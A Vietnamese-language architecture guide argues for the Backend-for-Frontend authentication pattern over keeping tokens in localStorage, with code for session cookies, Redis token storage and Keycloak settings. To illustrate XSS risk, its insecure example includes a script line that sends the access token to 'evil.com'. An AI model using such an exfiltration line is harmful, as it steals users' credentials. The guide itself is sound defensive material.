


# Authentication Architecture - Backend-for-Frontend (BFF) Pattern

## 🔐 So sánh: BFF Pattern vs Traditional SPA Pattern

### ✅ BFF Pattern (Gateway giữ tokens - KHUYẾN NGHỊ)

**Luồng:** Browser ← Cookie (session_id) → Gateway ← Tokens (access_token, refresh_token) → Services

**Lợi ích:**

1. **🛡️ Bảo mật cao nhất - Tokens không bao giờ lộ ra Browser**
   - Access token & refresh token được lưu trên **server-side** (Redis/DB)
   - Browser chỉ có **session cookie** (HttpOnly) - không thể đọc bằng JavaScript
   - **Chống XSS (Cross-Site Scripting):** Kẻ tấn công inject script không thể đánh cắp tokens
   - **Chống token leakage:** Tokens không bị log trong DevTools/Network tab

2. **🔒 Cookie Security tốt hơn localStorage/sessionStorage**
   - `HttpOnly`: JavaScript không thể truy cập → chống XSS
   - `Secure`: Chỉ gửi qua HTTPS → chống man-in-the-middle
   - `SameSite=Lax/Strict`: Chống CSRF (Cross-Site Request Forgery)
   - Cookie tự động gửi theo domain → không cần code JS xử lý

3. **🔄 Token Rotation & Refresh tự động**
   - Gateway tự động refresh access_token khi sắp hết hạn
   - Frontend **không cần biết** về token lifecycle
   - Giảm complexity cho frontend developers

4. **📦 Centralized Token Management**
   - Revoke tokens tập trung tại Gateway (xóa Redis key)
   - Logout toàn bộ sessions của user từ server
   - Dễ dàng implement logout khỏi tất cả devices

5. **🚪 Dễ dàng implement Single Sign-Out (SLO)**
   - Xóa session tại Gateway → tất cả requests sau bị reject
   - Có thể gọi Keycloak backchannel logout endpoint

6. **🔍 Audit & Monitoring dễ dàng**
   - Log tất cả API calls tại Gateway
   - Track user activity thông qua session_id
   - Phát hiện anomaly behavior (rate limiting, suspicious requests)

### ❌ Traditional SPA Pattern (Client giữ tokens - KHÔNG KHUYẾN NGHỊ)

**Luồng:** Browser ← Tokens (access_token, refresh_token stored in localStorage) → Services

**Nhược điểm:**

1. **🚨 Tokens lộ ra Browser - Rủi ro XSS cao**
   - Tokens lưu trong `localStorage` hoặc `sessionStorage`
   - JavaScript có thể đọc → nếu bị XSS, tokens bị đánh cắp ngay
   - Một lỗ hổng XSS = mất toàn bộ quyền truy cập

2. **📱 Tokens hiển thị trong DevTools**
   - Developer Tools → Application → LocalStorage: thấy tokens
   - Network tab: thấy tokens trong requests
   - Dễ bị screenshot, screen recording leak

3. **🔄 Frontend phải tự xử lý token refresh**
   - Code phức tạp: check expiry, retry với refresh_token
   - Race conditions khi nhiều requests cùng refresh
   - Tăng bundle size & complexity

4. **🚫 Logout khó khăn**
   - Xóa localStorage ở client không đảm bảo token bị revoke
   - Token vẫn valid cho đến khi hết hạn
   - Không thể force logout từ server

5. **🔓 CORS complexity**
   - Phải config CORS cho mọi service
   - Preflight requests (OPTIONS) làm chậm performance
   - Khó kiểm soát origin nào được phép

---

## 📋 Bảng so sánh tổng quan

| **Tiêu chí** | **BFF Pattern (Gateway giữ tokens)** | **SPA Pattern (Client giữ tokens)** |
|--------------|--------------------------------------|-------------------------------------|
| **Nơi lưu tokens** | Server-side (Redis/DB) | Browser (localStorage/sessionStorage) |
| **Browser nhận được** | Session cookie (HttpOnly) | access_token, refresh_token (JSON) |
| **Bảo mật XSS** | ✅ An toàn - JS không đọc được tokens | ❌ Nguy hiểm - tokens bị đánh cắp nếu XSS |
| **Token visibility** | ✅ Không hiện trong DevTools | ❌ Hiện rõ trong Application/Network tab |
| **Token refresh** | ✅ Gateway tự động xử lý | ❌ Frontend phải code logic phức tạp |
| **Logout/Revoke** | ✅ Server force logout ngay lập tức | ❌ Token vẫn valid đến khi hết hạn |
| **CORS complexity** | ✅ Chỉ config giữa Browser-Gateway | ❌ Phải config cho tất cả services |
| **Token leakage risk** | ✅ Thấp - tokens không rời khỏi server | ❌ Cao - tokens có thể bị log/leak |
| **Implementation complexity** | ⚠️ Cần setup Gateway/BFF layer | ✅ Đơn giản - call API trực tiếp |
| **Performance** | ⚠️ Thêm 1 hop (Browser → Gateway → Service) | ✅ Trực tiếp (Browser → Service) |
| **Best practice for** | ✅ Production apps với yêu cầu bảo mật cao | ❌ Prototype/Demo/Low-security apps |

**Kết luận:** BFF Pattern là **best practice** cho production web apps. Trade-off nhỏ về performance đổi lại security tăng đáng kể.

---

## 💡 Ví dụ thực tế

### ❌ SPA Pattern (Không an toàn)

```javascript
// Frontend code - INSECURE
localStorage.setItem('access_token', response.access_token);
localStorage.setItem('refresh_token', response.refresh_token);

// Mọi request đều gửi token từ localStorage
fetch('/api/products', {
  headers: {
    'Authorization': `Bearer ${localStorage.getItem('access_token')}`
  }
});

// ⚠️ Nếu có XSS vulnerability:
<script>
  // Hacker có thể đánh cắp tokens
  fetch('https://evil.com/steal?token=' + localStorage.getItem('access_token'));
</script>
```

### ✅ BFF Pattern (An toàn)

```javascript
// Frontend code - SECURE
// Không cần lưu hoặc xử lý tokens!
fetch('/api/products', {
  credentials: 'include'  // Tự động gửi session cookie
});

// Gateway (Backend) code
app.get('/api/products', async (req, res) => {
  const sessionId = req.cookies.session_id;  // Lấy từ HttpOnly cookie
  const accessToken = await redis.get(`sess:${sessionId}:access_token`);
  
  // Gọi service với Bearer token
  const response = await fetch('http://service-api/products', {
    headers: { 'Authorization': `Bearer ${accessToken}` }
  });
  
  res.json(await response.json());
});

// ✅ Ngay cả khi có XSS, hacker KHÔNG thể:
// - Đọc session cookie (HttpOnly)
// - Truy cập access_token (lưu server-side)
// - Sử dụng token ngoài domain (SameSite)
```

### 🔑 Redis Token Store Structure

```
// Session mapping trong Redis
sess:{session_id}:access_token  →  "eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9..."
sess:{session_id}:refresh_token →  "def50200abc..."
sess:{session_id}:expires_at    →  "1698765432"
sess:{session_id}:user_id       →  "user-123"

// TTL (Time To Live) tự động expire
EXPIRE sess:abc123:access_token 3600  // 1 hour
```

---

## 📊 Diagram: BFF Pattern Flow






---

## 🎯 Best Practices Summary

### 1. **Luôn dùng BFF/Gateway pattern cho production**
- Không bao giờ để tokens lộ ra browser
- Cookie với HttpOnly + Secure + SameSite

### 2. **Token Storage trên Server**
- Dùng Redis (fast, TTL support)
- Hoặc Database với indexed session_id
- Set expiry time tự động cleanup

### 3. **Cookie Configuration**
```javascript
res.cookie('session_id', sessionId, {
  httpOnly: true,      // ✅ Chống XSS
  secure: true,        // ✅ Chỉ HTTPS
  sameSite: 'lax',     // ✅ Chống CSRF
  maxAge: 3600000,     // 1 hour
  domain: '.yourdomain.com'  // Share across subdomains
});
```

### 4. **Gateway Security Checklist**
- ✅ Validate session trước mọi request
- ✅ Check token expiry & auto-refresh
- ✅ Rate limiting per session
- ✅ Log all authentication events
- ✅ Implement token rotation
- ✅ Support force logout (revoke session)

### 5. **Keycloak Configuration**
- Enable PKCE for all clients
- Set appropriate token lifetimes:
  - Access token: 5-15 minutes
  - Refresh token: 30 days (với rotation)
- Enable refresh token rotation
- Configure proper redirect URIs

---

## 📚 References

- [OAuth 2.0 BFF Pattern](https://datatracker.ietf.org/doc/html/draft-ietf-oauth-browser-based-apps)
- [OWASP: Token Storage](https://cheatsheetseries.owasp.org/cheatsheets/JSON_Web_Token_for_Java_Cheat_Sheet.html)
- [Keycloak Documentation](https://www.keycloak.org/docs/latest/securing_apps/)
- [PKCE RFC 7636](https://datatracker.ietf.org/doc/html/rfc7636)

---

**📝 Note:** Các sequence diagrams trên có thể copy vào [mermaid.live](https://mermaid.live) hoặc [mermaidchart.com](https://www.mermaidchart.com) để xem và chỉnh sửa.
